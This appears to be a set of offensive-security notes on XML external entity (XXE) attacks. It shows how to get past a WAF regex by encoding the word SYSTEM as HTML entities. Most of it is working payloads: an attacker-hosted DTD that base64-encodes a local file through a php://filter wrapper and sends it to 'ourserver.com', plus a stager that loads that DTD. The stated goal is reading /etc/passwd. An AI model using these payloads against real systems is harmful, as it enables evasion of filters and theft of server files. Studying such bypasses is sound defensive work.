

# XXE-Notes

### WAF bypass

A usefull technique to bypass WAF forbiden words like SYSTEM is using html entities, the technique here can be used to avoid using blacklisted words.

This is also valid for a regex in this case we will bypass the following regex `/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im`

This regex is stoping us to create a external entity with the following structure 

`<!ENTITY file SYSTEM "file:///path/to/file">` to avoid this we are going to use html entities to encode `<!ENTITY % dtd SYSTEM "http://ourserver.com/bypass.dtd" >` so we can call our dtd in a server we control.

The html entity equivalent is `&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;`

#### Server payload

We have to serve our dtd like the following:
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/path/to/file">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://ourserver.com/bypass.xml?%data;'>">
%abt;
```
We can modify this payload as we need as this will not be blocked by the WAF or regex on the victim.

#### Stager payload
The following payload will call our external dtd bypassing the SYSTEM blacklisted word:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;" >%a;%dtd;]><data><env>&exfil;</env></data>
```

And all we need to do is sending the payload and wait for the exfil in our server

And we can see is the base64 of the /etc/passed